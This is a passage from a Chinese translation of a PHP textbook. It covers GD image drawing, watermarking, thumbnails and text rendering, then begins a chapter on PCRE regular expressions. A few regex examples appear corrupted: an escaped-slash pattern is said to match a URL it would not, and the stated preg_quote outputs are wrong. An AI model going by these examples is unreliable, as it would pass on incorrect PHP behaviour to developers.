接下来的两条线是沿矩形左侧和右侧向下延伸的垂直线。这次，函数对每条线使用相同的 x 值（左侧线为 $x1，右侧为 $x2），并适当改变 y 值，使线条高度与圆角相匹配：

```
imageline( $image, $x1, ($y1 + $curveDepth), $x1, ($y2 - $curveDepth),
$color );
imageline( $image, $x2, ($y1 + $curveDepth), $x2, ($y2 - $curveDepth),
$color );
```

接下来，函数绘制圆角，从左上角开始。为了计算弧的中心点（参见图 17-15），函数将 $curveDepth 的值加到 $x1 和 $y1 上。为了得到弧的宽度和高度，函数需要将 $curveDepth 值加倍，因为 $curveDepth 实际上是弧的半径。


图 17-15

由于这是左上角，弧从 180 度（9 点钟方向）开始，绕过到 270 度（12 点钟方向）：

```
imagearc( $image, ($x1 + $curveDepth), ($y1 + $curveDepth), (2 *
$curveDepth), (2 * $curveDepth), 180, 270, $color );
```

其余角点的创建方式完全相同，只不过函数根据需要从 $x1、$y1、$x2 和 $y2 中添加或减去 $curveDepth，以获得每个弧的正确中心点。还要记住，每个角点的弧的起始和结束位置都会变化。

```
imagearc( $image, ($x2 - $curveDepth), ($y1 + $curveDepth), (2 *
$curveDepth), (2 * $curveDepth), 270, 360, $color );
imagearc( $image, ($x2 - $curveDepth), ($y2 - $curveDepth), (2 *
$curveDepth), (2 * $curveDepth), 0, 90, $color );
imagearc( $image, ($x1 + $curveDepth), ($y2 - $curveDepth), (2 *
$curveDepth), (2 * $curveDepth), 90, 180, $color );
}
```

圆角矩形函数到此结束，现在脚本可以绘制图像了。

脚本首先创建空白图像，并为图像分配两种颜色。分配的第一种颜色（灰色）是图像的背景色，第二种颜色（黑色）用于矩形：

```
$myImage = imagecreate( 200, 100 );
$myGray = imagecolorallocate( $myImage, 204, 204, 204 );
$myBlack = imagecolorallocate( $myImage, 0, 0, 0 );
```

接下来，代码调用 roundedRectangle() 函数，并传递前面讨论过的参数：

```
roundedRectangle( $myImage, 20, 10, 180, 90, 20, $myBlack );
```

最后，通过调用 header() 然后是 imagepng() 将矩形图像发送到 Web 浏览器。为了收尾，调用 imagedestroy() 函数来清理内存：

```
header( "Content-type: image/png" );
imagepng( $myImage );
imagedestroy( $myImage );
?>
```

## 处理图像

在本章中，你已经了解了如何使用 GD 图像库的绘图函数创建图像，并创建了一些基本形状。但如果你想处理现有图像，会发生什么呢？好吧，PHP 并不限制你只能创建新图像——你可以同样轻松地生成基于现有 JPEG、PNG 或 GIF 图像的新图像。

## 打开现有图像

如你已经看到，要从头开始创建新图像，可以使用 `imagecreate()` 或 `imagecreatetruecolor()` 函数。要基于现有图像创建新图像，可以使用 `imagecreatefrom...` 系列函数。最常用的是 `imagecreatefromjpeg()`、`imagecreatefromgif()` 和 `imagecreatefrompng()`。还有一些其他函数可以让你从现有图像格式在内存中创建新图像，但它们不如这三个常用。

`imagecreatefromjpeg()` 函数的工作方式与 `imagecreate()` 函数相同，只不过不再将新图像的宽度和高度作为参数传递，而只需将现有图像的文件名作为字符串传递。该函数返回一个图像资源，你可以使用它。

例如，这一行

```
$myImage = imagecreatefromjpeg( "lucky.jpg" );
```

打开与脚本位于同一目录下的名为 `lucky.jpg` 的 JPEG 文件，并将其内容存储在内存中。图像资源标识符 `$myImage` 指向内存中的图像数据。你可以通过将图像数据输出到浏览器来进行测试。

## 尝试一下：显示 JPEG

在此示例中，你将现有的 JPEG 文件读入内存，然后将其发送到浏览器进行显示。将以下脚本保存为 `show_jpeg.php`，放在文档根目录下。确保传递给 `imagecreatefromjpeg()` 函数的文件名是同一文件夹中存在的 JPEG 文件。

```
<?php
$myImage = imagecreatefromjpeg( "lucky.jpg" );
header( "Content-type: image/jpeg" );
imagejpeg( $myImage );
imagedestroy( $myImage );
?>
```

现在在 Web 浏览器中打开脚本的 URL。图 17-16 显示了示例输出——当然，你会看到不同的图像。


图 17-16

## 工作原理

代码相对简单，不应该出现任何问题。imagecreatefromjpeg() 函数从现有图像创建一个新的图像资源：

```
$myImage = imagecreatefromjpeg( "lucky.jpg" );
```

然后，脚本向 Web 浏览器发送一个标头，告知其预期接收一些 JPEG 图像数据：

```
header( "Content-type: image/jpeg" );
```

剩下要做的就是发送数据，并从内存中清理图像：

```
imagejpeg( $myImage );
imagedestroy( $myImage );
```

当然，脚本所做的事，你用纯 HTML 也可以自己完成，因此你可能想知道这样做有什么意义。嗯，能够打开现有图像并在将其发送到浏览器之前对其进行处理，这在许多方面都很有用。使用 GD 图像函数可以对图像执行的一些操作包括：

- 调整图像大小以创建用于显示的缩略图
- 降低图像质量以加快加载速度
- [ ] 用描述性文本或标题对图像进行注释
- [ ] 将另一图像的一部分复制到其中，以便用作版权水印

在以下各节中，你将学习如何将水印应用到图像，以及如何创建图像的缩略图。

## 应用水印

如果你正在开发一个展示原创艺术或照片的网站，你可能希望保护你或你客户的知识产权不被窃取。一种常见的方法是在图像上应用水印，以阻止他人将其据为己有。具体做法如下。

首先，在 Photoshop 等图像编辑器中创建一个简单的版权图像（如图 17-17 所示）。具体来说，在白色背景上添加一些黑色文本，并将图像另存为带有八色调色板的 PNG 文件。（这样做的原因将在本节稍后说明。）

© MATT DOYLE, 2008

图 17-17

## 将水印复制到图像中

下面是创建带水印图像的脚本。将此文件另存为 watermark.php。图 17-18 显示了一个示例结果。

```php
<?php
$myImage = imagecreatefromjpeg ( "lucky.jpg" );
$myCopyright = imagecreatefrompng ( "copyright.png" );

$destWidth = imagesx( $myImage );
$destHeight = imagesy( $myImage );
$srcWidth = imagesx( $myCopyright );
$srcHeight = imagesy( $myCopyright );

$destX = ($destWidth - $srcWidth) / 2;
$destY = ($destHeight - $srcHeight) / 2;

imagecopy( $myImage, $myCopyright, $destX, $destY, 0, 0, $srcWidth,
$srcHeight );

header ( "Content-type: image/jpeg" );
imagejpeg( $myImage );
imagedestroy( $myImage );
imagedestroy( $myCopyright );
?>
```

## 第三部分：在实践中使用 PHP

首先，打开你想要加水印的原始图像：

```
<?php
$myImage = imagecreatefromjpeg( "lucky.jpg" );
```

然后打开你的版权图像。因为它是 PNG 文件，所以使用 imagecreatefrompng() 函数来打开该文件：

```
$myCopyright = imagecreatefrompng( "copyright.png" );
```

要将版权声明定位在图像中心，你需要知道每幅图像的尺寸。imagesx() 函数返回图像的宽度，imagesy() 函数返回图像的高度。这两个函数都接受你想要获取宽度或高度的图像资源。脚本获取原始图像和版权通知的宽度和高度：

```
$destWidth = imagesx( $myImage );
$destHeight = imagesy( $myImage );
$srcWidth = imagesx( $myCopyright );
$srcHeight = imagesy( $myCopyright );
```

现在你需要计算版权通知需要放置的左上角位置。要计算角的 x 位置，用待加水印图像的宽度减去版权通知的宽度，然后将差值除以二。要获取 y 位置，使用图像高度执行相同的计算：

```
$destX = ($destWidth - $srcWidth) / 2;
$destY = ($destHeight - $srcHeight) / 2;
```

一旦知道版权通知应放置的位置，你就可以将其复制到待加水印的图像中。执行此操作的函数是 imagecopy()：

```
imagecopy( $myImage, $myCopyright, $destX, $destY, 0, 0, $srcWidth,
$srcHeight );
```

imagecopy() 接受八个参数，如下所示：

- 第一个参数是要复制数据的目标图像——即你想要加水印的图像
- 第二个参数是数据被复制的来源图像——即版权图像
- 第三个和第四个参数是目标图像中要复制图像数据的位置的 x 和 y 坐标。它们标记正在复制的数据块的左上角
- 接下来的两个参数是指示源图像中要复制的数据块左上角的 x 和 y 坐标
- 最后两个参数指示要复制的数据块的宽度和高度

在此示例中，你希望整个图像被复制过去，因此你使用 `0, 0` 作为要复制的数据块的左上角位置，并将版权图像的整个宽度和高度作为数据块的宽度和高度。

数据复制完成后，像往常一样输出图像。请记住清理两个图像所使用的内存：

```
header ( "Content-type: image/jpeg" ) ;
imagejpeg ( $myImage ) ;
imagedestroy ( $myImage ) ;
imagedestroy ( $myCopyright ) ;
?>
```


图 17-18

这里有一个小问题。如图所示，图像的大部分现在被遮挡了。在下一节中，你将改进脚本，以便能看到更多图像内容。

## 使用透明度

与其原封不动地复制整个版权图像，不如只复制黑色文本。为此，你需要使版权图像的白色区域变为透明。

首先，你需要获取图像中白色的颜色索引。有多种方法可以做到这一点。你可以使用 imagecolorat() 函数来获取精确像素位置处颜色的调色板索引：

```
$white = imagecolorat( $myCopyright, $x, $y );
```

或者，你可以使用 imagecolorexact()，传入要从调色板中获取的颜色的 RGB 值：

```
$white = imagecolorexact( $myCopyright, $red, $green, $blue );
```

后一种方法的唯一缺点是，如果颜色不存在于图像的颜色调色板中，函数不会返回有效的颜色索引。

之前，你将版权图像另存为 8 位颜色的 PNG。这确保了你有一个小的调色板可供使用，并且图像的白色背景在整个图像中保持一致。如果你将图像另存为带有数百万种颜色的 JPEG，可能会在白色背景中产生细微的差异，使你很难准确定位想要变为透明的白色。通过将图像另存为颜色数量较少的 PNG，你可以避免这个问题。

因此，你可以继续使用 imagecolorexact() 函数来获取白色的颜色索引。获取颜色索引后，你可以使用 imagecolortransparent() 函数使该颜色在图像中变为透明。该函数接受两个参数：图像资源和要设为透明的颜色索引。

在你先前创建的 watermark.php 脚本中，适当位置添加以下两行代码：

```
$destY = ($destHeight - $srcHeight) / 2;
```

```
$white = imagecolorexact( $myCopyright, 255, 255, 255 );
imagecolortransparent( $myCopyright, $white );
```

```
imagecopy( $myImage, $myCopyright, $destX, $destY, 0, 0, $srcWidth,
$srcHeight );
```

现在脚本的输出（参见图 17-19）看起来更有希望了。


图 17-19

## 使用不透明度

图像的不透明度定义了图像像素是透明还是不透明。图像可以从完全透明（看得见透过）到完全不透明（完全看不见透过）。在上一节的 imagecopy() 函数中，版权消息的黑色文本是不透明的，而其白色背景是透明的。

要使水印不那么明显，你可以使用 imagecopymerge() 函数为复制的图像赋予一定程度的透明度。该函数的工作方式与 imagecopy() 函数完全相同，只不过你还需要提供一个第九个参数，用于控制复制图像的透明度或不透明度。值为零表示复制的图像完全透明，在最终图像中不会看到它；而值为 100 表示复制的图像完全不透明，在这种情况下，函数的操作方式类似于 imagecopy() 函数。因此，你可以简单地更改 watermark.php 脚本中的这一行：

```
imagecopy( $myImage, $myCopyright, $destX, $destY, 0, 0, $srcWidth,
$srcHeight );
```

改为：

```
imagecopymerge( $myImage, $myCopyright, $destX, $destY, 0, 0, $srcWidth,
$srcHeight, 50 );
```


## 第三部分：在实践中使用 PHP

在这里，你已将 imagecopy() 函数改为 imagecopymerge()，并提供了不透明度值 50 —— 介于透明和不透明之间。脚本的输出现在看起来更像一个水印，如图 17-20 所示。


图 17-20

如果你对在图像中尝试透明效果感兴趣，请查看 PHP 手册中的 imagecolorallocatealpha() 和 imagealphablending() 函数，网址为 http://www.php.net/manual/en/ref.image.php。尽管你无法复制使用专业图形程序所能获得的所有效果，但仍然可以创建一些有趣的效果。

下一节也涉及操作现有图像，但这次你将把它缩小为缩略图。

## 创建缩略图

创建图像的缩略图使用了与应用水印类似的方法，只是复制方向相反 —— 不是将较小的图像复制到较大的图像中，而是将较大的图像复制到一个新的较小图像中，并在过程中将其缩小。以下是创建缩略图的示例脚本：

```php
<?php
$mainImage = imagecreatefromjpeg( "lucky.jpg" );
$mainWidth = imagesx( $mainImage );
$mainHeight = imagesy( $mainImage );

$thumbWidth = intval( $mainWidth / 4 );
$thumbHeight = intval( $mainHeight / 4 );

$myThumbnail = imagecreatetruecolor( $thumbWidth, $thumbHeight );

imagecopyresampled( $myThumbnail, $mainImage, 0, 0, 0, 0, $thumbWidth,
$thumbHeight, $mainWidth, $mainHeight );

header( "Content-type: image/jpeg" );
imagejpeg( $myThumbnail );
imagedestroy( $myThumbnail );
imagedestroy( $mainImage );
?>
```

将脚本保存为文档根目录文件夹中的 thumbnail.php，将第二行中的 lucky.jpg 替换为你自己的图像（保存在同一文件夹中）。在 Web 浏览器中打开其 URL 来运行脚本。图 17-22 显示了一个示例运行。

以下是脚本的工作原理。首先它打开要为其创建缩略图的图像：

```php
$mainImage = imagecreatefromjpeg( "lucky.jpg" );
```

接下来，它使用 imagesx() 和 imagesy() 函数获取原始图像的宽度和高度。你需要这些值来计算新缩略图的大小：

```php
$mainWidth = imagesx( $mainImage );
$mainHeight = imagesy( $mainImage );
```

在此示例中，缩略图将是原始图像大小的四分之一，因此脚本将原始宽度和高度除以四来计算缩略图尺寸。然后使用 intval() 函数将得到的值四舍五入为整数（因为你无法使用半个像素）：

```php
$thumbWidth = intval( $mainWidth / 4 );
$thumbHeight = intval( $mainHeight / 4 );
```

现在脚本创建一个新的空白图像来存储缩略图。通常你会制作照片的缩略图，因此你需要一个颜色数量较多的图像。因此，脚本使用 imagecreatetruecolor() 函数来创建空白缩略图：

```php
$myThumbnail = imagecreatetruecolor( $thumbWidth, $thumbHeight );
```

接下来，脚本需要将原始图像缩小并将其复制到新的缩略图中。有两个函数可以做到这一点：imagecopyresized() 和 imagecopyresampled()。两者的区别在于，imagecopyresized() 稍微快一些，但完全不进行图像平滑处理。如果你使用 imagecopyresized() 创建缩略图然后放大，你会看到类似图 17-21 所示的块状效果。


图 17-21

imagecopyresampled() 函数虽然稍慢一些，但会对像素进行插值，因此你不会得到那种块状效果。imagecopyresized() 和 imagecopyresampled() 函数都采用相同的十个参数：

- 目标图像
- 源图像
- 目标图像中复制的像素块左上角的 x 和 y 坐标
- 源图像中指示要复制的块左上角的 x 和 y 坐标
- 目标图像中复制块的调整大小后的宽度和高度
- 要从原始图像中复制出的图像数据块的宽度和高度

脚本使用 imagecopyresampled() 函数将整个图像数据复制到缩略图中，并在过程中将其缩小：

```php
imagecopyresampled( $myThumbnail, $mainImage, 0, 0, 0, 0, $thumbWidth,
$thumbHeight, $mainWidth, $mainHeight );
```

最后，脚本将图像数据发送到浏览器（参见图 17-22），并清理图像使用的内存：

```php
header( "Content-type: image/jpeg" );
imagejpeg( $myThumbnail );
imagedestroy( $myThumbnail );
imagedestroy( $mainImage );
?>
```


图 17-22

## 在图像中使用文本

使用 PHP 向图像添加文本使你能够为图像添加注释或绘制动态图表和图形。向图像添加文本最快、最简单的方法是使用 imagestring() 函数，它允许你在指定位置在图像上绘制一行文本。

### 添加标准文本

使用 imagestring() 在图像上绘制很容易，因为该函数可以使用系统内置字体来绘制文本。这意味着你不必担心在服务器上加载特定字体。

imagestring() 接受六个参数：

- 图像资源
- 用于文本的字体。这是一个整数值，范围从 1 开始。1 到 5 之间的值为内置系统字体；随后加载的任何字体都由从 6 开始的数字表示
- 文本位置的 x 和 y 值。这些值表示文本将出现的矩形的左上角
- 要绘制的文本字符串
- 文本的颜色

要为 imagestring() 函数加载字体，请使用 imageloadfont() 函数。它加载一种与架构相关的位图字体；这意味着字体需要在你想要使用它的同一类型系统上生成。一个更简单的解决方案是使用 TrueType 字体 —— 你马上就会了解到这一点。

如果 imagestring() 成功将文本添加到图像中，则返回 true；如果出错，则返回 false。

## 尝试：显示系统字体

尝试显示每个五种系统字体。将此脚本保存为文档根目录文件夹中的 `system_fonts.php`，并在 Web 浏览器中打开脚本 URL：

```php
<?php
$textImage = imagecreate( 200, 100 );
$white = imagecolorallocate( $textImage, 255, 255, 255 );
$black = imagecolorallocate( $textImage, 0, 0, 0 );
$yOffset = 0;
for ( $i = 1; $i <= 5; $i++ ) {
    imagestring( $textImage, $i, 5, $yOffset, "This is system font $i", $black );
    $yOffset += imagefontheight( $i );
}
header( "Content-type: image/png" );
imagepng( $textImage );
imagedestroy( $textImage );
?>
```

图 17-23 显示了此脚本的输出。


图 17-23

## 工作原理

首先，脚本创建一个基于调色板的空白图像用于文本，然后在图像的调色板中分配白色和黑色。因为代码先分配白色，所以它被设置为图像的背景色：

```php
<?php
$textImage = imagecreate( 200,100 );
$white = imagecolorallocate( $textImage, 255, 255, 255 );
$black = imagecolorallocate( $textImage, 0, 0, 0 );
```

然后，脚本设置一个变量来存储绘制字符串的 y 位置（向下的距离）。第一行文本将位于图像顶部，因此此变量设置为 0。

```php
$yOffset = 0;
```

接下来，脚本设置一个 `for` 循环来遍历每个五个内置系统字体：

```php
for ( $i = 1; $i <= 5; $i++ ) {
    imagestring( $textImage, $i, 5, $yOffset, "This is system font $i", $black );
    $yOffset += imagefontheight( $i );
}
```

循环结束后，脚本输出图像并清理：

```php
header( "Content-type: image/png" );
imagepng( $textImage );
imagedestroy( $textImage );
?>
```

### 使用 TrueType 字体

绘制基本图表和图形时，你可能更喜欢使用内置系统字体，因为它们是非比例字体 —— 所有字符宽度相同 —— 因此布局和定位更容易。但是，如果你希望文本看起来更优雅，那么你可能想使用 TrueType 字体。这些字体提供了更多的灵活性 —— 不仅可以通过从广泛可用的字体中选择来控制文本的外观，还可以指定文本大小和绘制文本的角度。

绘制 TrueType 文本的首选函数是 `imagefttext()`，它使用 FreeType 2 库。该函数按顺序接受以下参数：

- 包含要在其上写入文本的图像的图像资源
- 以点为单位的字体大小
- 要旋转文本的角度，以度为单位。零度为三点钟方向，90 度为十二点钟方向，依此类推。值为零会生成标准的从左到右文本。（请注意，与相应的 `imagearc()` 参数不同，此角度按逆时针方向而不是顺时针方向工作）
- 你希望文本开始的 `x` 和 `y` 位置。这是文本周围边界框的左下角。这与 `imagestring()` 函数不同，后者的坐标表示边界框的左上角


- 文本颜色，作为颜色索引（例如由 imagecolorallocate() 返回）
- 服务器硬盘上字体（.ttf）文件的完整路径
- 要绘制的文本字符串

imagefttext() 绘制文本，然后返回一个由八个元素组成的数组，表示围绕绘制文本的边界框的四个角点：

| 元素索引 | 说明 |
|---|---|
| 0 | 左下角的 x 坐标 |
| 1 | 左下角的 y 坐标 |
| 2 | 右下角的 x 坐标 |
| 3 | 右下角的 y 坐标 |
| 4 | 右上角的 x 坐标 |
| 5 | 右上角的 y 坐标 |
| 6 | 左上角的 x 坐标 |
| 7 | 左上角的 y 坐标 |

这意味着你可以确切地了解绘制的文本在图像中占用了多少空间。如果你想绘制与刚刚绘制的文本相对定位的更多文本或形状，这将非常有用。

## 尝试一下：使用 TrueType 字体绘制文本

下面是一个使用 TrueType 字体显示文本的示例脚本。将代码保存为文档根目录中的 truetype.php，并在 Web 浏览器中运行该脚本。（如果你没有在 /usr/share/fonts/truetype/ttf-bitstream-vera/Vera.ttf 处安装 Vera 字体，请将脚本更改为指向你已安装的 TrueType 字体。）

```php
<?php
$textImage = imagecreate( 200, 120 );
$white = imagecolorallocate( $textImage, 255, 255, 255 );
$black = imagecolorallocate( $textImage, 0, 0, 0 );
imagefttext( $textImage, 16, 0, 10, 50, $black, "/usr/share/fonts/truetype/ttf-bitstream-vera/Vera.ttf", "Vera, 16 pixels" );
header( "Content-type: image/png" );
imagepng( $textImage );
imagedestroy( $textImage );
?>
```

图 17-24 显示了生成的文本。


图 17-24

## 工作原理

首先，脚本创建一个空白图像并分配两种颜色：

```php
<?php
$textImage = imagecreate( 200, 120 );
$white = imagecolorallocate( $textImage, 255, 255, 255 );
$black = imagecolorallocate( $textImage, 0, 0, 0 );
?>
```

然后，通过调用 imagefttext() 将字符串绘制到图像上：

```php
imagefttext( $textImage, 16, 0, 10, 50, $black, "/usr/share/fonts/truetype/ttf-bitstream-vera/Vera.ttf", "Vera, 16 pixels" );
```

最后，脚本输出生成的图像：

```php
header( "Content-type: image/png" );
imagepng( $textImage );
imagedestroy( $textImage );
?>
```

要演示如何绘制旋转文本，请更改以下行：

```php
imagefttext( $textImage, 16, 0, 10, 50, $black, "/usr/share/fonts/truetype/ttf-bitstream-vera/Vera.ttf", "Vera, 16 pixels" );
```

改为：

```php
imagefttext( $textImage, 16, -30, 10, 30, $black, "/usr/share/fonts/truetype/ttf-bitstream-vera/Vera.ttf", "Vera, 16 pixels" );
```

唯一的变化是，你现在以 –30 度方向而不是零度绘制文本。旋转方向为逆时针，因此负数会使文本以顺时针方向倾斜。如果零度是钟面的三点钟方向，那么顺时针 30 度就是钟面的四点钟方向。你可以在图 17-25 中看到结果。


图 17-25

## 总结

本章讨论了如何使用 PHP 创建、操作和输出图像。在本章中，你学习了：

- 了解计算机图像的基础知识，包括颜色、坐标系统和图像类型
- 了解如何使用 `imagecreate()` 及相关函数创建位图图像，以及在图像中分配颜色
- 了解如何使用 `imagejpeg()`、`imagegif()` 和 `imagepng()` 将图像输出到 Web 浏览器或文件
- 了解了一些 PHP 的绘图函数，包括 `imagesetpixel()`、`imageline()`、`imagerectangle()`、`imageellipse()`、`imagearc()` 和 `imagepolygon()`
- 了解如何使用 `imagecreatefromjpeg()`、`imagecreatefromgif()` 和 `imagecreatefrompng()` 打开现有图像以便对其进行操作。例如，你将水印图像应用到现有照片上，并基于现有图像创建了缩略图。在此过程中，你探索了透明度和不透明度的概念
- 使用 `imagestring()` 和 `imagefttext()` 将文本添加到图像中

生成和输出图像的能力进一步扩展了 PHP 脚本的功能。例如，你可以创建仅用 HTML 很难实现的内容，例如饼图和其他图表。此外，由于你可以使用 PHP 代码操作现有图像，因此执行创建图库缩略图和批量处理图像等任务变得轻而易举。

下一章将探讨一个完全不同的主题：正则表达式。这些强大的工具可以让你以各种有用的方式搜索和操作文本字符串。不过，在阅读之前，请先看看下面两个图像操作练习。

## 练习

下面是一些练习，帮助你练习本章学习的一些技术。你也可以扩展这些练习以应用于现实世界示例。练习的解答在附录 A 中。

1. 创建一个 PHP 脚本，打开图像文件，在图像上添加一个一像素的黑色边框，并将生成的图像输出到浏览器。
2. 使用 disk_total_space() 和 disk_free_space() 函数，以图形方式显示 Web 服务器硬盘上已使用的磁盘空间大小。

## 使用正则表达式进行字符串匹配

在第 5 章中，你探索了 PHP 许多强大的字符串操作函数，例如用于在字符串中查找文本的 `strstr()` 和用于搜索和替换字符串中文本的 `str_replace()`。

在本章中，你将学习 PHP 更强大的正则表达式函数。这些函数比常规字符串匹配函数灵活得多，因为它们让你将字符串与一组字符的 *模式* 进行比较，而不是与固定字符串进行比较。例如，你可以搜索一个字符串，查找由恰好三个数字组成的字符模式，后面跟一个逗号或句点，再后面跟一到四个字母。

在正则表达式中，你使用 `?` 和 `^` 等特殊符号来指定模式。由于模式可能变得非常复杂，初学者可能难以理解正则表达式。但是，通过一些练习以及本章中的一些提示，你会发现你可以更快速、更轻松地读取正则表达式。

虽然正则表达式对 PHP 编程并非必不可少——你通常可以使用字符串匹配函数和一两个循环来完成类似的工作——但当你需要匹配模式时，它们是你的最佳选择。一方面，单个正则表达式通常比一整套字符串匹配和循环要紧凑直观得多。该表达式通常运行速度也快得多。

读完本章后，你将了解：

- **将字符串与正则表达式匹配：** 你将探索 PHP 的 `preg_match()` 和 `preg_match_all()` 函数，这些函数允许你将正则表达式应用于字符串以查找匹配项
- **正则表达式语法的方方面面：** 你将了解正则表达式中使用的所有特殊字符，以及如何匹配字符类型、一次匹配多个字符、字符的替代组等等
- **搜索整个字符串数组：** 你可以使用 PHP 的 preg_grep() 函数遍历字符串数组，查找与正则表达式匹配的文本
- **替换文本：** 你将学习 PHP 的 preg_replace() 和 preg_replace_callback() 函数，用于将字符串中匹配的文本替换为不同的文本
- **模式修饰符：** 你可以通过向表达式添加某些模式修饰符来使正则表达式更加灵活
- **分割字符串：** 就像你可以使用 explode() 使用固定分隔符分割字符串一样，你可以使用 preg_split() 基于正则表达式分割字符串

你还将学习如何使用正则表达式匹配来搜索网页中的链接 URL，并验证用户输入（正则表达式的非常常见用途）以及操作字符串。

本章专门使用一种称为 PCRE（Perl 兼容正则表达式）的 PHP 正则表达式类型。PHP 的旧版本支持另一种称为 POSIX Extended 的正则表达式类型。其中包括 ereg()、ereg_replace() 和 split() 等函数。从 PHP 5.3 版本开始，POSIX Extended 正则表达式已被弃用，并将在 PHP 6 中删除。如果你有使用 POSIX Extended 函数的现有代码，现在是将它们替换为 PCRE 等价函数的好时机。

## 什么是正则表达式？

正则表达式为你提供了一种特殊的语法，用于在字符串中搜索文本模式。在最简单的形式下，正则表达式只是一个搜索文本字符串，就像你传递给 strstr() 的那样（参见第 5 章）。正则表达式被封装在分隔符中（通常是斜杠）。例如，这个简单的正则表达式搜索目标字符串中任意位置的单词“world”：

```
/world/
```

不过，这是一个简单的示例（事实上，在这种情况下，使用更快的 strstr() 会更好）。一旦你插入具有特殊含义的其他字符，正则表达式就开始变得有用。例如，表达式开头的插入符（^）字符意味着“后面的字符必须出现在目标字符串的开头”：

```
/^world/
```

此示例将匹配字符串“world”，但不匹配字符串“hello, world”（因为“world”不在字符串开头）。

下面是你可以使用正则表达式执行的一些简单搜索示例：

- 单词“train”，但不包括单词“training”
- 至少一个数字，后跟单个字母 A、B 或 C
- 单词“hello”后跟五到十个其他字符，再后跟“world”
- 一到两个数字，后跟字母“st”、“nd”、“rd”或“th”，再后跟一个空格，再后跟三个字母（适用于识别字符串中嵌入的日期）


可以看到，strstr() 只能匹配传递给它的精确字符串，而正则表达式可以包含一系列“规则”来创建相当复杂的匹配模式。

## PHP 中的模式匹配

PHP 中的主要模式匹配函数是 preg_match()。该函数接受以下参数：

- 要搜索的正则表达式（字符串）
- 要搜索的字符串
- 可选的数组，用于存储任何匹配的文本。（匹配的文本存储在第一个元素中。）
- 可选整数，用于指定匹配操作的任何标志。当前仅支持一个标志：PREG_OFFSET_CAPTURE。传递此常量可使 preg_match() 在数组中返回任何匹配项的位置以及匹配的文本。（如果需要向 preg_match() 传递第五个参数，并且想要关闭此功能，请改为指定值为零。）
- 可选的整数偏移量，从字符串开头计算（第一个字符的偏移量为零，第二个字符的偏移量为 1，以此类推）。如果指定，preg_match() 将从字符串中的此位置开始搜索，而不是从第一个字符开始。

最后，要从目标字符串的特定位置开始搜索，请将位置作为第五个参数传递：

```
echo preg_match( "/world/", "Hello, world!", $match, 0, 8 ); // Displays "0"
```

（此示例显示零，因为目标字符串中的 "world" 文本从位置 7 开始。）

既然你了解了 PHP 正则表达式匹配函数的工作原理，现在是时候学习如何编写正则表达式了。

## 探索正则表达式语法

虽然复杂的正则表达式对新手来说可能像天书一样，但正则表达式只不过是编码在字符串中的一组简单规则。一旦你理解了各种规则的工作原理，你就能相对轻松地读取任何正则表达式。

在接下来的章节中，你将学习一些有用的正则表达式规则。尽管此规则列表并非 100% 完整，但对于大多数字符串匹配场景来说已经足够。（若想深入了解正则表达式，可阅读 Jeffrey E. F. Friedl 编著、O'Reilly 出版、ISBN 1-56592-257-3 的《精通正则表达式》。）

## 匹配字面量字符

正则表达式模式的最简单形式是字符串。在这种情况下，模式中存储的字符串与目标字符串中的相同字符串匹配，不应用任何其他规则。

如你已所见，字母单词如 "hello" 在正则表达式中被视为字符串。正则表达式中的字符串 "hello" 匹配目标字符串中的文本 "hello"。同样，许多其他字符——如数字、空格、单引号和双引号以及 %、&、@ 和 # 符号——都被正则表达式引擎按字面处理。

不过，正如你稍后将看到，某些字符在正则表达式中具有特殊含义。这些特殊字符共有十九个：

```
. \ + * ? [ ^ ] $ ( ) { } = ! < > | :
```

如果你想在表达式中按字面包含此列表中的任何字符，需要在它前面加上反斜杠 (\) 进行转义，如下所示：

```
echo preg_match( "/love\?/", "What time is love?" ); // Displays "1"
```

> 由于反斜杠本身也是特殊字符，如果你想在表达式中按字面包含它，需要用另一个反斜杠 (\) 对其进行转义。而且，由于字符串中反斜杠后跟另一个字符在 PHP 中本身被视为转义字符，你通常需要添加第三个反斜杠 (\)。哎呀！

此外，如果在表达式中使用分隔符字符，需要对其进行转义：

## 第 18 章：使用正则表达式进行字符串匹配

```
echo preg_match( "/http:\/\/\//", "http://www.example.com" ); // Displays "1"
```

斜杠通常用作正则表达式分隔符，但你可以使用任何喜欢的符号（前提是表达式的开头和结尾使用相同的符号）。如果表达式包含大量斜杠，这很有用。通过使用不同的分隔符，例如 |（竖线）字符，你可以避免在表达式中转义斜杠：

```
echo preg_match( "|http://|", "http://www.example.com" ); // Displays "1"
```

虽然某些特殊字符在特定上下文中有时会被按字面处理，但最好始终对它们进行转义。（不过，不要尝试在字母和数字前面加反斜杠来转义它们，因为这会传达不同的特殊含义，如你稍后将看到。）

幸运的是，PHP 提供了一个名为 `preg_quote()` 的实用函数，它接受一个字符串并返回带有任何特殊正则表达式字符引号的同一字符串：

```
echo preg_quote( "$3.99" ); // Displays "$\3\.99"
```

如果你还想转义分隔符字符，请将其作为第二个参数传递给 `preg_quote()`：

```
echo preg_quote( "http://", "/" ); // Displays "http:\\/\\/"
```

`preg_quote()` 特别适用于在运行时将字符串插入正则表达式（因为你无法预先知道字符串是否包含需要转义的特殊字符）。

你还可以通过使用转义序列在正则表达式中按字面编写各种字符，如下所示：

| 转义序列 | 含义 |
|---|---|
| `\n` | 换行符（ASCII 10） |
| `\r` | 回车符（ASCII 13） |
| `\t` | 水平制表符（ASCII 9） |
| `\e` | 转义字符（ASCII 27） |
| `\f` | 换页符（ASCII 12） |
| `\a` | 响铃（警报）字符（ASCII 7） |
| `\xdd` | 具有十六进制代码 `dd` 的字符（例如，`\x61` 是 ASCII 字母 "a"） |
| `\ddd` | 具有八进制代码 `ddd` 的字符（例如，`\141` 是 ASCII 字母 "a"） |
| `\cx` | 控制字符（例如，`\cH` 表示 ^H，即退格） |

## 使用字符类匹配字符类型

与其搜索字面量字符，不如搜索某个特定类或类型的字符通常更有用。例如，你可能只关心字符是否为数字，或是否为字母 A、B 或 C 中的一个。

通过将一组字符放在方括号中，你可以搜索与集合中任意一个字符匹配的单个字符。例如，以下表达式匹配 "a"、"b"、"c"、"1"、"2" 或 "3"：

```
echo preg_match( "/[abc123]/", "b" ); // Displays "1"
```

你可以使用连字符 (-) 指定字符范围。以下示例匹配与前一个示例相同的字符集：

```
echo preg_match( "/[a-c1-3]/", "b" ); // Displays "1"
```

因此，你可以使用以下方式匹配任何字母或数字：

```
echo preg_match( "/[a-zA-Z0-9]/", "H" ); // Displays "1"
```

要取消字符类的含义——即匹配不在集合中的字符——请在列表开头放置插入符 (^)：

```
echo preg_match( "/[abc]/", "e" ) . "<br />"; // Displays "0"
echo preg_match( "/[^abc]/", "e" ) . "<br />"; // Displays "1"
```

